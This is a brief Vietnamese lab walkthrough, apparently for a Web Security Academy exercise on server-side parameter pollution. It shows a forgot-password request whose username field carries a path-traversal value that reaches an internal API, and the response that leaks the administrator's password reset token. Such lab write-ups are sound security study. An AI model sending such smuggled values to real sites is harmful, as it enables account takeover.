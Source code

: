 -Ta lại đọc file forgotPassword.js, thấy có 1 parameter lạ tên: ```passwordResetToken```

==>Gửi request sau:

```bash
POST /forgot-password HTTP/2
Host: 0a24002d04ac4bdf80c28a1300700062.web-security-academy.net
Cookie: session=dftzj227liUkkDGpFsU0pNInIw9LWX7Z
Content-Length: 125
Content-Type: x-www-form-urlencoded
csrf=IZ8HJUQ5roI5jKwCtC6XdbqF0e9y9khQ&username=../../../../../api/internal/v1/users/administrator/field/passwordResetToken%23
```

```bash
{
  "type": "passwordResetToken",
  "result": "gngb32j3752brlva9bhfpkbeqbn743l1"
}
```

==>Phần còn lại như lab trước đó.